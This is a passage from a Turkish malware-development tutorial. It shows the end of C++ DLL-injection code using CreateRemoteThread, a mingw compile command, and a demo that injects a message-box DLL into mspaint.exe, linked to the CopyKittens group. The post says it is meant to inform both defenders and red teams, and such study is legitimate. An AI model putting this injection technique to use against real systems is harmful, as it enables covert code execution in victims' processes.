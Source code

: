 ```cpp
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

### "zararlı yazılım" demosu

Tamam, şimdi enjeksiyonumuzu gösterelim.    

Öncelikle, kodumuzu derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

![av-evasion](./images/103/2023-07-08_20-09.png){width="80%"}      

Ve şimdi `mspaint.exe` sürecini bulup zararlı DLL’imizi enjekte etmek için çalıştıralım:   

```powershell
.\hack2.exe mspaint.exe
```

![av-evasion](./images/103/2023-07-08_20-19.png){width="80%"}      

Gördüğünüz gibi, mesaj kutumuz `mspaint.exe` sürecine `PID = 3048` ile enjekte edildi, beklendiği gibi. Mükemmel! =^..^=     

Bu teknik, İranlı [CopyKittens](https://attack.mitre.org/groups/G0052/) siber casusluk grubu tarafından kullanılmaktadır. Umarım bu yazı, mavi takım üyelerinin bu ilginç zararlı yazılım geliştirme tekniği hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine yeni bir silah ekler.     

[WTSEnumerateProcessesA](https://learn.microsoft.com/en-us/windows/win32/api/wtsapi32/nf-wtsapi32-wtsenumerateprocessesa)       
[Find PID by name and inject to it. "Classic" implementation.](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)       
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)       
[CopyKittens](https://attack.mitre.org/groups/G0052/)     
[Malpedia: CopyKittens](https://malpedia.caad.fkie.fraunhofer.de/actor/copykittens)      
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-07-07-malware-trick-34)           
